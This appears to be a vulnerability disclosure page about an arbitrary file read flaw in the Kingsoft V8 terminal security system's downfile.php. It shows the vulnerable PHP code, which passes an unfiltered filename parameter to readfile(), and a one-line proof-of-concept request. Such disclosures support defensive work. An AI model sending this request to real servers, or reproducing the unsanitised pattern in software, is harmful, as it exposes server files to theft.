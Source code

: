 # Kingsoft V8 Terminal Security System downfile.php Arbitrary File Reading Vulnerability

## Vulnerability Description

Kingsoft V8 terminal security system There is a vulnerability to read any file on the server. The attacker can download any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kingsoft V8 terminal security system</span>

## Network surveying and mapping



## Vulnerability reappears

Files with vulnerability `/Console/htmltopdf/downfile.php`

```php
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```

There is no filtering in the file. You can download any file through the filename parameter. The POC is

```plain
/htmltopdf/downfile.php?filename=downfile.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111120246.png)



## 